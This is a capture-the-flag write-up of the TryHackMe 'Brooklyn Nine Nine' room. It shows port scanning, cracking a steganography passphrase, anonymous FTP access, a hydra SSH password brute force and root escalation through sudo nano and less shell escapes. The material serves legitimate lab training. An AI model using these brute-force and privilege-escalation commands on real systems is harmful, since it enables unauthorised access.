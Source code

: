 ```yaml
---
title: "TryHackMe: Brooklyn Nine Nine Write-up"
date: 2025-09-14 14:00:00
categories: [TryHackMe, Challenges]
tag: [SSH brute force, Forensics, web]
author: Aisha
---
```


## Introduction

**Challenge Link:** [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

The challenge described that there are two ways to hack into the machine, I tried both ways.

## Steganography

 

 Start with port scanning

```python
nmap 10.10.178.223    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-09 11:34 +03
Nmap scan report for 10.10.178.223
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.78 seconds
```

The result from port scanning showed three ports open, we will start with the http service: 

![Alt](/images/Brooklyninenine/1.webp)

Looking into the source code, there was a hint that there is a hidden data inside the image

![Alt](/images/Brooklyninenine/2.webp)

Download the image and start the inspection

```python
$ wget "http://10.10.178.223:80/brooklyn99.jpg"                                             
```

View the metadata of the image

```python
 file brooklyn99.jpg 
brooklyn99.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 533x300, components 3
                                                                                                  
┌──(kali㉿kali)-[~/Documents/tryhackme/tes]
└─$ exiftool brooklyn99.jpg            
ExifTool Version Number         : 12.57
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 70 kB
File Modification Date/Time     : 2020:05:26 12:01:39+03:00
File Access Date/Time           : 2025:09:09 11:38:54+03:00
File Inode Change Date/Time     : 2025:09:09 11:38:43+03:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
```

I used strings as a start, but didn't show anything interested 

```python
 strings --bytes=8  brooklyn99.jpg        
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
mz\C(?3:|
t-Vv2G4c
Mm22<r.C
3*IWr_i'
Z$&DF,^r
DJN~D\{}
        d#td0`X
}NU\C:ls
-on|@c6h
6G89*GpO
$-r7VIi:
H;F[nNF[
=n}RKq"G
                  
```

I also used `StegSolve-1.4.jar,` and  `binwalk`,  but it didn't help. Thus, the next option is to use `stegohide` to see if the embedded text is protected with password, if so, we will use `stegoseek` to crack the password

```bash
─$ steghide info  brooklyn99.jpg             
"brooklyn99.jpg":
  format: jpeg
  capacity: 3.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.

```

actually, even if it prompts for password that doesn't confirm that there is a hidden data protected with a password, but we will try to crack it anyway. 

```bash
$ stegseek --crack -sf brooklyn99.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
                                                                                              
└─$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

The hidden data was a text file that has Holt’s password. I tried to ssh to this user and it was a success!

```bash
ssh holt@10.10.178.223
holt@10.10.178.223's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ id
uid=1002(holt) gid=1002(holt) groups=1002(holt)
holt@brookly_nine_nine:~$ sudo -l 
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
    
holt@brookly_nine_nine:~$ ls -l
total 8
-rw------- 1 root root 110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt  33 May 17  2020 user.txt
```

The `sudoers`  file allows Holt to use `nano` with sudo, referred to this [source](https://gtfobins.github.io/gtfobins/nano/#sudo) to abuse the binary to gain privileged access.

![Alt](/images/Brooklyninenine/3.webp)

## FTP Access

Now we will try the other way, using the FTP service to find possible vulnerabilities.

```bash
─$ ftp 10.10.178.223 21
Connected to 10.10.178.223.
220 (vsFTPd 3.0.3)
Name (10.10.178.223:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls 
229 Entering Extended Passive Mode (|||20279|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||39692|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |*****************************************************|   119        2.52 MiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.79 KiB/s)

```

As initial, the service allows for `anonymous` access, then we find a text file which we transfer it to our local machine.

```bash
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

The text gives us a hint that the password for ssh access of Jake is weak, thus it is possible to brute force it with `hydra`. 

```bash
hydra -l "jake" -P /usr/share/wordlists/rockyou.txt  ssh://10.10.178.223  
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-09 13:33:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.178.223:22/
[22][ssh] host: 10.10.178.223   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-09 13:33:34
```

With the cracked password, ssh to Jake machine. 

```bash
 ssh jake@10.10.178.223
jake@10.10.178.223's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ id
uid=1000(jake) gid=1000(jake) groups=1000(jake)
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ 
```

We can use `less` to exploit it to gain root access via opening a file with `sudo` rights, then pass this command to it: 

```bash

!/bin/sh
```

source :  [gtfobins](https://gtfobins.github.io/gtfobins/less/#sudo)

![Alt](/images/Brooklyninenine/4.webp)

At the bottom of the file we executed the bash command, and we got a root shell! 

![Alt](/images/Brooklyninenine/5.webp)
